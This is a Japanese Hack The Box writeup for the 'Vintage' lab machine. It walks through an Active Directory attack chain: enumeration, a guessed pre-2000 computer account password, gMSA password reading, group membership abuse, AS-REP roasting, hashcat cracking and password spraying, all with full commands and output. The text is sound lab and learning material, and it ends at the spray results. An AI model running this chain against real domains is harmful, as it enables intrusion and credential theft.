


# HTB Vintage Writeup


マシンの起動画面には以下のように事前に認証情報が与えられました。


# Enumration

## Nmap

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ nmap -sV -sC -p- --min-rate 10000 10.10.11.45 -oN Nmap.scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-13 10:44 JST
Nmap scan report for vintage.htb (10.10.11.45)
Host is up (0.11s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-13 01:29:48Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
52039/tcp open  msrpc         Microsoft Windows RPC
52044/tcp open  msrpc         Microsoft Windows RPC
52064/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-01-13T01:30:39
|_  start_date: N/A
|_clock-skew: -15m36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.41 seconds
```


Webサーバーは起動していないようです。

スキャン結果からドメインを見つけたのでhostsファイルに追加しておきます。

```
10.10.11.45 vintage.htb
```

## Domain

digでドメインの列挙を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ dig any vintage.htb @10.10.11.45

; <<>> DiG 9.20.4-3-Debian <<>> any vintage.htb @10.10.11.45
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 35747
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 3, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;vintage.htb.			IN	ANY

;; ANSWER SECTION:
vintage.htb.		600	IN	A	10.10.11.45
vintage.htb.		3600	IN	NS	dc01.vintage.htb.
vintage.htb.		3600	IN	SOA	dc01.vintage.htb. hostmaster.vintage.htb. 220 900 600 86400 3600

;; ADDITIONAL SECTION:
dc01.vintage.htb.	3600	IN	A	10.10.11.45

;; Query time: 207 msec
;; SERVER: 10.10.11.45#53(10.10.11.45) (TCP)
;; WHEN: Mon Jan 13 10:48:22 JST 2025
;; MSG SIZE  rcvd: 138
```


`dc01.vintage.htb` を見つけたのでhostsファイルに追加します。

## SMB

事前に与えられている認証情報でNetExecを使用してsmbの列挙を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb 10.10.11.45 -u 'P.Rosa' -p 'Rosaisbest123'   
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
```

`STATUS_NOT_SUPPORTED` と表示されています。これはNTLM認証をドメイン内でサポートされていないことを示しています。

kerberos認証をするにはドメインコントローラーの時間と攻撃端末の時間を同期する必要があります。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ timedatectl set-ntp off
                                                                                   
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ sudo ntpdate -u dc01.vintage.htb
[sudo] kali のパスワード:
2025-01-13 10:34:15.723087 (+0900) -935.522050 +/- 0.040550 dc01.vintage.htb 10.10.11.45 s1 no-leap
CLOCK: time stepped by -935.522050
```

NetExecでは `-k` オプションでkerberos認証を使用して認証を行うとことができるので、kerberos認証を使用してで再び実行すると狙い通り認証が成功しました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb dc01.vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -k                                        
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa:Rosaisbest123  
```

認証が成功したのでドメイン内の列挙をしていきますが、その前に `impacket-getTGT` で `P.Rosa` のTGTを取得し、チケットを使って認証をしていきます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb vintage.htb/P.Rosa:Rosaisbest123
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in P.Rosa.ccache
```

取得したチケットは環境変数の `KRB5CCNAME` にエクスポートすることで使えます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=P.Rosa.ccache 

┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist                                                      
Ticket cache: FILE:P.Rosa.ccache
Default principal: P.Rosa@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T10:35:42  2025-01-13T20:35:42  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T10:35:42
```

### SMB共有の列挙

取得したチケットを使用してSMB共有フォルダの列挙を行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb dc01.vintage.htb -k --use-kcache --shares
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa from ccache 
SMB         dc01.vintage.htb 445    dc01             [*] Enumerated shares
SMB         dc01.vintage.htb 445    dc01             Share           Permissions     Remark
SMB         dc01.vintage.htb 445    dc01             -----           -----------     ------
SMB         dc01.vintage.htb 445    dc01             ADMIN$                          Remote Admin
SMB         dc01.vintage.htb 445    dc01             C$                              Default share
SMB         dc01.vintage.htb 445    dc01             IPC$            READ            Remote IPC
SMB         dc01.vintage.htb 445    dc01             NETLOGON        READ            Logon server share 
SMB         dc01.vintage.htb 445    dc01             SYSVOL          READ            Logon server share
```

共有フォルダが読み込めるみたいです。しかし、smbclientなどで調べてみましたが、とくに使えそうな情報は見つかりませんでした。

### RID のブルートフォース攻撃によるユーザーの列挙

RIDをブルートフォース攻撃してドメインユーザーを列挙します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb dc01.vintage.htb -k --use-kcache --rid-brute
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa from ccache 
SMB         dc01.vintage.htb 445    dc01             498: VINTAGE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             500: VINTAGE\Administrator (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             501: VINTAGE\Guest (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             502: VINTAGE\krbtgt (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             512: VINTAGE\Domain Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             513: VINTAGE\Domain Users (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             514: VINTAGE\Domain Guests (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             515: VINTAGE\Domain Computers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             516: VINTAGE\Domain Controllers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             517: VINTAGE\Cert Publishers (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             518: VINTAGE\Schema Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             519: VINTAGE\Enterprise Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             520: VINTAGE\Group Policy Creator Owners (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             521: VINTAGE\Read-only Domain Controllers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             522: VINTAGE\Cloneable Domain Controllers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             525: VINTAGE\Protected Users (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             526: VINTAGE\Key Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             527: VINTAGE\Enterprise Key Admins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             553: VINTAGE\RAS and IAS Servers (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             571: VINTAGE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             572: VINTAGE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             1002: VINTAGE\DC01$ (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1103: VINTAGE\DnsAdmins (SidTypeAlias)
SMB         dc01.vintage.htb 445    dc01             1104: VINTAGE\DnsUpdateProxy (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1107: VINTAGE\gMSA01$ (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1108: VINTAGE\FS01$ (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1111: VINTAGE\M.Rossi (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1112: VINTAGE\R.Verdi (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1113: VINTAGE\L.Bianchi (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1114: VINTAGE\G.Viola (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1115: VINTAGE\C.Neri (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1116: VINTAGE\P.Rosa (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1120: VINTAGE\IT (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1121: VINTAGE\HR (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1122: VINTAGE\Finance (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1123: VINTAGE\ServiceAccounts (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1131: VINTAGE\DelegatedAdmins (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1134: VINTAGE\svc_sql (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1135: VINTAGE\svc_ldap (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1136: VINTAGE\svc_ark (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1137: VINTAGE\ServiceManagers (SidTypeGroup)
SMB         dc01.vintage.htb 445    dc01             1140: VINTAGE\C.Neri_adm (SidTypeUser)
SMB         dc01.vintage.htb 445    dc01             1141: VINTAGE\L.Bianchi_adm (SidTypeUser)
```

コンピュータアカウントを含むドメインユーザーを取得できたので、ユーザーリストにまとめておきます。

```
Administrator
Guest
krbtgt
DC01$
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

## BloodHound

つづいてBloodHoundをつかって列挙していきます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodhound-python -d vintage.htb -u 'P.Rosa' -p 'Rosaisbest123' -dc dc01.vintage.htb -ns 10.10.11.45 --zip -c All
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: vintage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FS01.vintage.htb
INFO: Querying computer: dc01.vintage.htb
WARNING: Could not resolve: FS01.vintage.htb: The resolution lifetime expired after 3.104 seconds: Server Do53:10.10.11.45@53 answered The DNS operation timed out.
INFO: Done in 00M 27S
INFO: Compressing output into 20250113104031_bloodhound.zip
```

作成されたzipファイルをBloodHoundにアップロードします。


現在制御できるアカウントは `P.Rosa` のみなのでこいつから列挙していきます。

しかし、`P.Rosa` にはとくに悪用できそうな権限は持っていませんでした。

いろいろ見ていると`FS01` は `gMSA01` に対してReadGMSAPasswordの権限を持っていることが分かりました。


また、`FS01` は `Pre-Windows 2000 Compatible Access` に属しています。これは、Windows 2000 以前の互換コンピュータであることを示しています。


つづいて、`GMSA01$` は `ServiceManagers` にたいして `GenericWrite` の権限をもっていることが分かりました。この権限により、自信を `ServiceManagers` に追加することができます。


`ServiceManagers` はサービスアカウントの `svc_ark`, `svc_sql`, `svc_ldap` に対して `GenericAll` の権限を持っています。この権限により、標的型 Kerberoast 攻撃やパスワードの強制変更をすることができます。


つづいてサービスアカウント３つが持っている権限について調べてみましたが、とくに悪用できそうな権限は持っていませんでした。

しかし、`svc_sql` のみアクティブなユーザーではないことが分かりました。


これまでの列挙から、まずはFS01の初期アクセスが必要になってきます。

# 初期アクセス

Active Directoryでは、管理者はホストをドメインに参加させる前に、ホストが適切な組織単位またはセキュリティグループに属していることを確認するために、コンピュータアカウントをステージングすることがよくあります。ステージングされたコンピュータアカウントがWindows2000以前と互換性があるように構成されている場合、すべて小文字ホスト名と一致するパスワードが設定されます。例えば、ホスト名が `TEST$` だとすると、パスワードは `test` となります。Windows2000以前と互換性があるように構成されていないコンピュータアカウントのパスワードはランダムに生成されます。

今回は `FS01$` が `Pre-Windows 2000 Compatible Access` 属しているのでFS01のパスワードは `fs01` であると予測されます。

netexecで確認すると、パスワードが `fs01` でログインできることが分かりました。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb dc01.vintage.htb -u 'FS01$' -p 'fs01' -k
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\FS01$:fs01
```

他にも、[pre2k](https://github.com/garrettfoster13/pre2k)というWindows2000以前のコンピュータオブジェクトの存在を照会するツールがあるのでこれを使用するのもいいと思います。
```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ pre2k unauth -d vintage.htb -dc-ip 10.10.11.45 -inputfile users.txt

                                ___    __         
                              /'___`\ /\ \        
 _____   _ __    __          /\_\ /\ \\ \ \/'\    
/\ '__`\/\`'__\/'__`\ _______\/_/// /__\ \ , <    
\ \ \L\ \ \ \//\  __//\______\  // /_\ \\ \ \\`\  
 \ \ ,__/\ \_\\ \____\/______/ /\______/ \ \_\ \_\
  \ \ \/  \/_/ \/____/         \/_____/   \/_/\/_/
   \ \_\                                      v3.1    
    \/_/                                          
                                            @garrfoster
                                            @Tw1sm          

[10:43:08] INFO     Testing started at 2025-01-13 10:43:08
[10:43:08] INFO     Using 10 threads
[10:43:09] INFO     VALID CREDENTIALS: vintage.htb\FS01$:fs01     
```

これでFS01を制御することができます。

# ReadGMSAPasswordの悪用

この権限を悪用するにはNetExecを使うことができます。NetExecには `--gmsa` オプションがあり、これによりgmsaパスワードを読み取ることができます。しかし、このオプションにはldapsが使用されます。このマシンではldapsが動いていないのでこれは機能しませでした。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec ldap dc01.vintage.htb -u FS01 -p 'fs01' -k --gmsa
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] LDAPs connection to ldaps://dc01.vintage.htb failed - (104, 'ECONNRESET')
LDAP        dc01.vintage.htb 389    dc01.vintage.htb [-] Even if the port is open, LDAPS may not be configured
```

もう一つの方法は [bloodyAD](https://github.com/CravateRouge/bloodyAD) を使う方法です。

以下のコマンドでパスワードを抽出することができます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -u FS01 -p fs01 -k get object 'gMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:7dc430b95e17ed6f817f69366f35be06
msDS-ManagedPassword.B64ENCODED: sfyyjet8CbAO5HFzqbtcCtYlqyYohprMvCgeztWhv4z/WOQOS1zcslIn9C3K/ucxzjDGRgHJS/1a54nxI0DxzlhZElfBxQL2z0KpRCrUNdKbdHXU/kzFj/i38JFgOWrx2FMIGKrEEIohO3b2fA/U/vlPxw65M+kY2krLxl5tfD1Un1kMCByA1AI4VuR5zxXSfpnzFIxKlo1PKBJUxttMqbRM21I5/aLQnaIDCnr3WaqfU6lLwdGWxoz6XSD3UiqLaW5iDPYYR47kJpnflJgS0TBUBkvd2JiLiOb5CXF1gBgUsbVLtBo/OWW/+lrvEpBtS7QIUFsOKMIaNsKFGtTkWQ==
```

`GMSA01` のNTLMハッシュを取得しました。つづいて、gMSA01を `ServiceManagers` に追加します。

# GenericWriteの悪用

[powerview.py](https://github.com/aniqfakhrul/powerview.py)を使います。これはPowerViewをlinux上から使うことができる便利なスクリプトです。

以下のコマンドでPowerViewを使うことのできる特別なシェルが起動します。

その前に `gMSA01` のTGTを取得しておきます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-getTGT -hashes :7dc430b95e17ed6f817f69366f35be06 vintage.htb/gMSA01
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in gMSA01.ccache
```

チケットをエクスポート

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=gMSA01.ccache
                    
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:gMSA01.ccache
Default principal: gMSA01@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T10:51:17  2025-01-13T20:51:17  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T10:51:17
```

チケットを使用してpowerview.pyを起動します。

```bash
powerview -k --no-pass vintage.htb/gMSA01@dc01.vintage.htb
```

gMSA01を `ServiceManagers` に追加します。

```powershell
Add-DomainGroupMember -Identity ServiceManagers -Members gMSA01
Get-DomainObject -Identity ServiceManagers -Select member
```


追加できました。

# GenericAllの悪用

ServiceManagersのメンバーはサービスアカウント３つに対して `GenericAll` の権限を持っているのでこれを悪用して`userAccountControl`に `DONT_REQ_PREAUTH` を割り当てます。

[UserAccountControl フラグを使用してユーザー アカウントのプロパティを操作する](https://learn.microsoft.com/ja-jp/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties)

`DONT_REQ_PREAUTH` はKerberos事前認証を無効化する値です。この値を設定することによってAS-REPRoast攻撃により、ユーザーのパスワードハッシュを取得することができます。

現在のuserAccountControlの値を取得する

```powershell
Get-DomainObject -Identity svc_sql -Select userAccountControl,cn
Get-DomainObject -Identity svc_ark -Select userAccountControl,cn
Get-DomainObject -Identity svc_ldap -Select userAccountControl,cn
```


先ほどのBloodHoundでもあったようにsvc_sqlは `ACCOUNTDISABLE` が割り当てられていることからユーザーが無効化されているので有効かさせる必要があります。

userAccountControlの設定はPowerViewを使って設定することができますが、powerview.pyではなぜかうまくいかなかったので、bloodyADを使って行います。

svc_sqlを有効化します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k remove uac svc_sql -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from svc_sql's userAccountControl
```

TGTを使ってuserAccountControlに`DONT_REQ_PREAUTH`を割り当てます。これをsvc_ark,svc_ldapに対しても行います。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k add uac svc_sql -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_sql's userAccountControl
                                              
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k add uac svc_ark -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_ark's userAccountControl

┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.10.11.45 -d vintage.htb -k add uac svc_ldap -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_ldap's userAccountControl
```

impacket-GetNPUsersでAS-REPRoast攻撃を実行します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ impacket-GetNPUsers -k -no-pass -usersfile users.txt -format hashcat -outputfile hashes.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:8dc9470b6aa730717fbf3a7c32ee0efb$9991d8e02e16dcb83133c1ff9f4451e25c923c99832005cd967de2a4bb74f253c83eebe6aa88d86c9a92f3e7c27570eb0df2ecf91a6d6038f2e446f89b49686cf743e026417c683ccc3ad2492616ffa65bb516e7785057ae0867adbe7c01d8069a2c54d2790a461d38cff9d91ccd1289772489e8546e9b3b9a36697b835e935466c6950225a5a5bc80d931ac00a989b4898cb5662dbbb8bb1774fea5104c63a7181057d40a3b4711b3fae73401c2ad2c376b9e3debcdd4b32395ab13699990cd8543bbcd922270ffc0ee74e8ebcc419ac3629d7fe32ec8b62280521078d6e9641e24e66d2f7194d4cc9c
$krb5asrep$23$svc_ldap@VINTAGE.HTB:fa269ad82c12f7397411678b881f14b3$c3a9f2dc4bd5bf7609a14b5790daf5c09e46f25cb8d8b65a069c1af4ac2be6de1f383d446a5cd5c99927a209ac0ffbbd147599ad42cd632439c816344e18032ebe46b22a8a55051013f1ccb42da08fb10bb2d0a1ebbe8b7314ba92dc25f12620adecf15509805180679dc32ed6d62db9a0c9e99c1992f25fbd8b25cf67115f6ae034d2f4493b3662583df9904577714f3f9f52ee150bd1b4d00a25ef1697c755373346099fc4b06d7299c36da7c1eae7e4da4fdc438bec65ef022a0371ab783a2d73b217b9278b3b5c64b71aeafce06ce53c1b8e369670ffe5fcd7b54075e07627db2a67d6ce505a9003
$krb5asrep$23$svc_ark@VINTAGE.HTB:edfb100f9c0cc71579506db91c270a5c$42507d4bd613c4f4b24240dbf56a3ce4c8f37c9392f8eaeb429a251ae69fe95f4c4dad659b9777b21e16d7996bc62ce6d26718e7dcf4d179c8cea55fde0858b952dd8aadf3b9f7994cf799c5a0b4caad6f1b95af21a9c1c049e7b2530deff186b33d2d312eab0908679e84f70122abc8eae91029cbcc6342ae5606369ff124c53b7b7e001a04b7960dbf838ac57c74faa7af92cb43e5fced10396563009843bba5bf0ddaaa0f27200b10a6311036bf7ad587e7271056ccdd6ac26d2320bb77e90664ffc80a9058e0ee11b5a3443db818430c52e4cdb258d8ca80529efcd52915eef11d95b6dc3f3c9eb3
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

３つのパスワードハッシュを取得することができました。hashcatで解析します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --show
$krb5asrep$23$svc_sql@VINTAGE.HTB:2491e38ff495158a3bdc88363ff4c6bd$677b41dd7d0f077a3c27a7ef2f1e686559ad7252aead0d9075e616f11d1c8f849b4a67ca80e26256b7cd176ad4658a56c84cf9d9ea1f7006ecf030f1607c65451add2844171bebbb84c5a8ee3a4b955ae4f00072265265fe0764388c0b7ef3e6784020f08f3ea6f3c8c10d46162bb3909cf4244c6ff8a6cc93608b832406755a28a45a515525564b08fcbdf6ebe0bfbea3b1bf94b7d32a5d3334ec215bf3f3514b688e08997a56b4bad96645b4b0fc165a4d05e69bd12fae1e056c783c9d8b73e8302b23c61002b5d9f2abaafbec438eb519ff83f0222e1d3fe2a05b6275a66a486762cbc88d3dac88c5:Zer0the0ne
```

svc_sqlのパスワードハッシュの解析に成功し、パスワードが `Zer0the0ne` であることが分かりました。

このパスワードが他のユーザーで使用されていないか調べてみます。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ netexec smb dc01.vintage.htb -u users.txt -p 'Zer0the0ne' -k --continue-on-success
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Administrator:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\Guest:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\krbtgt:Zer0the0ne KDC_ERR_CLIENT_REVOKED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\DC01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\gMSA01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\FS01$:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\M.Rossi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\R.Verdi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\L.Bianchi:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\G.Viola:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\C.Neri:Zer0the0ne 
SMB         dc01.vintage.htb 445    dc01             [-] vintage.htb\P.Rosa:Zer0the0ne KDC_ERR_PREAUTH_FAILED 
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\svc_sql:Zer0the0ne 
